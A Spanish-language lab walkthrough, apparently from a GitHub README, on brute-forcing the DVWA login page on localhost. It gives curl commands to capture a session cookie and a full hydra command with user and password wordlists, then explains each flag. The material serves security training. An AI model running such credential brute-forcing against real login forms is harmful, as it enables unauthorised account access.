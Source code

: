 El primer paso es sacar la coockie que vamos a implementar en nuestro ataque, para ello hacemos los siguientes comandos:

    curl -c cookies.txt http://127.0.0.1/login.php

    curl -X POST -b cookies.txt -c cookies.txt -d "username=admin&password=password&Login=Login" http://127.0.0.1/login.php

    cat cookies.txt

    
En este apartado, vamos a realizar un ataque de fuerza bruta para conseguir acceso a nuestra página web vulnerable, haciendo uso de hidra junto a un par de wordlists con posibles nombres de usuarios y contraseñas filtradas. Para ello vamos a implementar el siguiente comando:


    hydra -L /home/ubuntu/Desktop/credentials/users.txt -P /home/ubuntu/Desktop/credentials/passwds.txt 'http-get-form://127.0.0.1/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome:H=Cookie\: PHPSESSID=j422143437vlsdgqs0t1385420; security=medium'

"/login.php:user=^USER64^&pass=^PASS64^&colon=colon\:escape:S=result=success"


hydra
    
    → Es la herramienta utilizada para realizar el ataque de fuerza bruta.

-L /home/ubuntu/Desktop/credentials/users.txt
    
    → Especifica la lista de usuarios. Si quisieras probar varios usuarios, usarías -L con un archivo de nombres de usuario.

-P /home/ubuntu/Desktop/credentials/passwds.txt
    
    → Especifica la lista de contraseñas, la cual contiene millones de combinaciones comunes.

http-get-form://127.0.0.1/vulnerabilities/brute/

    → Indica que se atacará un formulario de inicio de sesión usando el método GET.
    → La URL objetivo es http://127.0.0.1/vulnerabilities/brute/ 

username=^USER^&password=^PASS^&Login=Login
    
    → Define la estructura del formulario de autenticación:

        ^USER^ será reemplazado por el usuario (admin en este caso).
        ^PASS^ será reemplazado por cada contraseña de la lista.
        Login=Login representa el botón de envío.

:S=Welcome
    
    → Indica la condición de éxito: si la respuesta del servidor contiene la palabra "Welcome", significa que el acceso fue exitoso.

:H=Cookie\: PHPSESSID=j422143437vlsdgqs0t1385420; security=medium
   
     → Agrega una cabecera HTTP con cookies:

        PHPSESSID=j422143437vlsdgqs0t1385420 
            Identificador de sesión que puede ser necesario si el sistema lo requiere.
    
        security=medium 
            Establece un nivel de seguridad en la plataforma de pruebas (posiblemente DVWA, Damn Vulnerable Web Application).



